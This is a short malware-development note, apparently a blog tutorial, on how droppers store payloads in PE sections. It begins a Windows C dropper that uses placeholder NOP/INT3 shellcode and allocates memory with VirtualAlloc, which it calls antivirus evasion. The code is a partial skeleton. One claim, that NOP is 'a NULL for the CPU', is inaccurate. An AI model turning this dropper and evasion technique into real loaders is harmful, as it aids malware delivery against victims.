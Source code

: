 ```yaml
---
title: Notes | Dropper
author: Zeropio
date: 2023-01-28
categories: [Notes, Malware]
tags: [malware]
permalink: /notes/malware/dropper
---
```


**Droppers** are programs to deliver our payload to the target and execute it. This payload can be stored in:
- `.text`: needs to be insert in some function, like `main`.
- `.data`: the compiler need to know that our payload is read-only (for example a global variable).
- `.rsrc`: stored as part of the resource section.

---

# .text

We will be using the following C code. First initialize the file, variables and create a 4 byte shellcode:
```cpp
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

int main(void) {
	
	void * exec_mem;
	BOOL rv;
	HANDLE th;
	DWORD oldprotect = 0;
	
	// 4 byte payload
	unsigned char payload[] = {
		0x90,	// NOP
		0x90,	// NOP
		0xcc,	// INT3
		0xc3	// RET
	};
	unsigned int payload_len = 4;
```

**INT3** tells the CPU to suspend the process and give the control to the debugger.

> **NOP** is a **NULL** for the CPU.
{: .prompt-info}

Now we need to allocate the memory in the buffer. For some AV evasion, we need to make this buffer readable and writable, not executable:
```cpp
exec_mem = VirtualAlloc(0, payload_len, MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
```
